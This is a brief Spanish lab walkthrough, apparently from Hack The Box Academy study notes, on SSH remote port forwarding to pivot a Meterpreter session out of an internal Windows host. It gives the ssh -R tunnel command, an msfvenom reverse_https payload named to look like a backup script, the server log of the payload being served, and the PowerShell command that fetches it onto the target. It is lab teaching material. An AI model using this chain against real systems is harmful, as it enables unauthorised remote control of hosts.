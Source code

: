 # Remote/Reverse Port Forwarding with SSH

- SSH puede escuchar en nuestro host local y reenviar un servicio en el host remoto a nuestro puerto, y el reenvío de puertos dinámico, donde podemos enviar paquetes a una red remota a través de un host pivote. Pero a veces, puede que queramos reenviar un servicio local al puerto remoto también. Consideremos el escenario en el que podemos RDP en el host de Windows Windows A. Como se puede ver en la imagen de abajo, en nuestro caso anterior, podríamos pivotar en el host de Windows a través del servidor Ubuntu.
![](https://academy.hackthebox.com/storage/modules/158/33.png)


- meterpreter (maquina atacante) <=> maquina pivot => windows A
- Para entonces:  meterpreter <=== windows A
- En nuestra maquina atacante: `ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN`

![](https://academy.hackthebox.com/storage/modules/158/44.png)

- Entonces por ejemplo a la reverse shell de lhost le vamos a poner la IP del pivot:
- `msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080`
- Luego al ya haber creado el tunnel reverso podemos abrir un python http server en nuestra maquina atacante
```
┌──(kali㉿kali)-[~/Desktop/htb]
└─$ python3 -m http.server 8080                                                
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
127.0.0.1 - - [13/Jan/2025 12:38:14] "GET /backupscript.exe HTTP/1.1" 200 -
```

- En la maquina windows hacemos una peticion HTTP get de la shell
```
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8080/backupscript.exe" -OutFile "C:\backupscript.exe"
```
- Como se puede apreciar, en el servidor http parece que "localhost" hizo la petición, y esto es justamente por el tunnel reverso.
- importante en el msfconsole, dentro del multihandler poner `set lhost 0.0.0.0` para que tome cualquier acceso al puerto especificado en el tunnel con ssh.
